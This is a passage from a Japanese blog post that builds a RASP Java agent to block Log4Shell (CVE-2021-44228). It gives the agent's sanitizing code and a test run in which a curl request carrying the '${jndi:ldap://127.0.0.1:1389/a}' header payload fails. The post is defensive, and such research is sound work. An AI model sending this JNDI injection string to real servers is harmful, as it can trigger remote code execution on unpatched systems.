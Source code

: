 ```java
        return null;
    }

    /**
     * 無害化
     */
    public static String sanitizing(String key) {
        System.out.println("JndiLookupTransformer#sanitizing");
        return key.replace('/', 'x'); // 「/」を「x」に変換
    }

}
```
</div>

#### RASPロード時の処理のイメージ

　今回処理を追加している「`JndiLookup#lookup`」メソッドの処理内容は以下になっています。
[f:id:motikan2010:20211221185946p:plain:w600]

　RASPをロードすることによって、以下の処理内容のようになります。
[f:id:motikan2010:20211221185950p:plain:w600]


#### 動作確認 (RASP適用後)

　最後にRASPを「`-javaagent`」オプションで読み込んでWebアプリケーションを起動します。

　先ほどと同様に攻撃を行ってみると、`javax.naming.CommunicationException`が発生し攻撃が失敗していることが確認できます。

<div class="md-code" style="width:100%">
```
$ java -javaagent:./lib/cve_2021_44228_rasp-jar-with-dependencies.jar -jar build/libs/web_application-0.0.1-SNAPSHOT.jar
Loading CVE-2021-44228 RASP ⭐️　RASPが適用されていることが確認できる　⭐️
(...snip...)
2021-12-21 20:51:12.335  INFO 45330 --- [           main] o.s.b.w.e.t.TomcatWebServer              : Tomcat started on port(s): 8080 (http) with context path ''
2021-12-21 20:51:12.347  INFO 45330 --- [           main] c.e.d.DemoApplication                    : Started DemoApplication in 2.02 seconds (JVM running for 3.163)


==================== 攻撃リクエストを送信 ====================
$ curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1:1389/a}'


==================== アプリケーション側のログ ====================
12月 21, 2021 8:51:59 午後 org.apache.catalina.core.ApplicationContext log
情報: Initializing Spring DispatcherServlet 'dispatcherServlet'
2021-12-21 20:51:59.158  INFO 45330 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Initializing Servlet 'dispatcherServlet'
2021-12-21 20:51:59.159  INFO 45330 --- [nio-8080-exec-1] o.s.w.s.DispatcherServlet                : Completed initialization in 1 ms
Before : ldap://127.0.0.1:1389/a
JndiLookupTransformer#sanitizing
After : ldap:xx127.0.0.1:1389xa ⭐️　入力値が変わり、「javax.naming.CommunicationException」が発生している　⭐️
2021-12-21 20:51:59,226 http-nio-8080-exec-1 WARN Error looking up JNDI resource [ldap:xx127.0.0.1:1389xa]. javax.naming.CommunicationException: localhost:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
	at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:237)
	at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
	at java.naming/com.sun.jndi.ldap.LdapClient.getInstance(LdapClient.java:1610)
	at java.naming/com.sun.jndi.ldap.LdapCtx.connect(LdapCtx.java:2751)
	at java.naming/com.sun.jndi.ldap.LdapCtx.<init>(LdapCtx.java:319)
	at java.naming/com.sun.jndi.url.ldap.ldapURLContextFactory.getUsingURLIgnoreRootDN(ldapURLContextFactory.java:60)
```